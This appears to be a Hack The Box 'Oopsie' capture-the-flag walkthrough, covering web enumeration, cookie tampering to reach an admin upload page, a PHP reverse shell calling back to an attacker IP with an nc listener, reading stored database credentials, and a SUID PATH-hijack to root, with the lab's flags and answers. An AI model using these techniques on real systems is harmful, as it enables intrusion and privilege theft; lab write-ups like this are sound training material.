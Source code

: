 # Oopsie

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. With what kind of tool can intercept web traffic?

> proxy

#### 2. What is the path to the directory on the webserver that returns a login page?

We see that there might be some login page:

![login](./login.jpg)

So we will use [Burp Suite](https://portswigger.net/burp/communitydownload) to passively spider the website:

Once we open the webpage with burp, we can see the site map:

![target](./target.jpg)

> /cdn-cgi/login

#### 3. What can be modified in Firefox to get access to the upload page?

> cookie

#### 4. What is the access ID of the admin user?

We can login as guest:

![guest](./guest.jpg)

And we can see, that to upload we need `super admin` rights:

![right](./right.jpg)

When we click `Account`, we can see in the `URL`, that our `id` is `2`, let's find `admin's` `id`:

![user](./user.jpg)

Admin's `id` is `1`:

![admin](./admin.jpg)

> 34322

#### 5. On uploading a file, what directory does that file appear in on the server?

```sh
$ gobuster dir -u http://10.129.95.191 -w dictionaries/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dictionaries/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
```

> /uploads

#### 6. What is the file that contains the password that is shared with the robert user?

Let's try to get admin access. For that we need to modify our cookies and refresh the page:

![modify](./modify.jpg)

We can upload files, let's upload reverse shell from [here](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php). Note that you need to change `IP` and `PORT`:

```php
...
$ip = '10.10.16.15';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...
```

After we upload it, we need to set up our `nc listener`:

```sh
$ nc -l 9001
```

And visit `http://10.129.95.191/uploads/php-reverse-shell.php`. Finally we got reverse shell:

```sh
nc -l 9001
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:55:57 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

To have a stable shell, we need to execute: 

```sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$
```

```sh
www-data@oopsie:/$ cd /var/www/html/cdn-cgi/login 
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Let's switch to user `robert`:

```sh
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$
```

> db.php

#### 7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

> find

#### 8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

Let's try to escalate out priveleges:

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

`robert` is in group `bugtracker`. Let's see if there is any binary within that group:

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
<cdn-cgi/login$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -al /usr/bin/bugtracker
ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
There is a [suid](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

> root

#### 9. What SUID stands for?

> Set owner User ID

#### 10. What is the name of the executable being called in an insecure manner?

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 0
0
---------------

cat: /root/reports/0: No such file or directory
```

It does not specifies the whole path to file cat and thus we might be able to exploit this.

> cat

#### Submit user flag

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ cat /home/robert/user.txt
cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

#### Submit root flag

1. navigate to `/tmp`
2. create a file named cat with `/bin/bash` inside
3. give execute permissions
4. modify `$PATH` to include `/tmp`
5. run `bugtracker`

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
echo "/bin/bash" > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 0
0
---------------

root@oopsie:/tmp# cd /root
root@oopsie:/root# ls
reports  root.txt
root@oopsie:/root# cat root.txt
root@oopsie:/root# rm /tmp/cat
root@oopsie:/root# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

## Final Flags

> `user`: f2c74ee8db7983851ab2a96a44eb7981
> `root`: af13b0bee69f8a877c3faf667f7beacf

*Created by [bu19akov](https://github.com/bu19akov)*